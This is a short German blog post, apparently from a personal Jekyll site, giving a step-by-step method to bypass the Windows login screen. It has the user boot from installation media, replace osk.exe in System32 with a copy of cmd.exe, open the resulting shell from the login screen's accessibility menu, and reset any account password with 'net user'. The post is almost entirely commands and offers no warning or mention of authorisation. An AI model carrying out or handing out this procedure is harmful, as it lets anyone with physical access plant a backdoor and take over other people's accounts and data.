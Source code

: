 <div id="particles-js" class="background" ></div>
<script type="text/javascript" src="js/particles.js"></script>
<script src="js/app.js"></script>


---
layout:     post
title:      Windows Login umgehen (backdoor)

date:       2021-05-01
author:     user

summary:    Windows Login umgehen (backdoor)
categories: Login
thumbnail:  cogs
tags:
            - Windows
            - Login
            - Passwort
            - umgehen
            - backdoor
            - Hintertür
---

## Windows Login umgehen (backdoor)

Was wir brauchen:

1. Original Image von Windows (.iso)
2. Bootable USB


Vorgehensweise:

1. Von Windows-USB-Stick booten
2. Computerreparaturoptionen
    ![Thumper](https://i.imgur.com/cgOS11f.jpg) 
3. Problembehandlung
    ![Thumper](https://i.imgur.com/XZsOGe0.jpg)
4. Eingabeaufforderung
    ![Thumper](https://i.imgur.com/MdtXTKA.jpg)
5. Auf C-Platte wechseln
```
C:
```
6. Dann in den Windows Ordner
```
cd Windows\System32
```
7. osk = on screen keyboard (Bildschirmtastatur)
```
dir osk.exe
```
8. Original umbenennen
```
rename osk.exe osk.orig.exe
```
9. cmd.exe zu osk.exe kopieren
```
copy cmd.exe osk.exe
```
10. überprüfen
```
dir osk*
```
10. PC neustartem
11. Erleichterte Bedienung > Bildschirmtastatur - Es wird allerdings cmd.exe gestartet weil wir diese ja zuvor ausgetauscht haben
12. net user *USERNAME* *NEUES PW*
```
net user eski 1234
```
13. Einloggen
